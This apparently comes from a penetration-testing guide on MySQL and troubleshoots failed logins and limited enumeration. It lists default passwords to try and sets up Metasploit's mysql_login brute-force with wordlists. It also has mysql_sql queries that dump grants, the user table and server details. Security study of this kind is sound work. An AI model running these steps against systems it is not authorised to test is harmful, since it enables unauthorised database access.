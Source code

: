 ### 🔐 Issue 2: Authentication Failures
**Problem**: Valid service detected but cannot authenticate

**Common Scenarios:**
- Default credentials changed
- Account lockout policies
- Network-based access restrictions
- SSL/TLS requirements

**Systematic Solutions:**
```bash
# Method 1: Test most common credentials first
mysql -h target -u root -p
# Try: (blank), root, admin, password, mysql, test

# Method 2: Comprehensive wordlist attack
use auxiliary/scanner/mysql/mysql_login
set RHOSTS target
set USER_FILE /usr/share/wordlists/metasploit/unix_users.txt
set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
set VERBOSE true
run

# Method 3: Check for anonymous access
mysql -h target

# Method 4: Test with SSL
mysql -h target -u root -p --ssl
```

### 📊 Issue 3: Limited Information Disclosure
**Problem**: Authentication successful but minimal data returned

**Possible Causes:**
- Limited user privileges
- Database access restrictions
- Information schema disabled
- Custom security configurations

**Resolution Strategies:**
```bash
# Step 1: Check current user privileges
use auxiliary/admin/mysql/mysql_sql
set SQL "SHOW GRANTS FOR CURRENT_USER();"
run

# Step 2: Test different enumeration approaches
use auxiliary/admin/mysql/mysql_sql
set SQL "SELECT user,host FROM mysql.user;"
run

# Step 3: Try alternative information gathering
use auxiliary/admin/mysql/mysql_sql
set SQL "SELECT @@version, @@datadir, @@hostname;"
run

# Step 4: Check database permissions
use auxiliary/admin/mysql/mysql_sql
set SQL "SHOW DATABASES;"
run
```
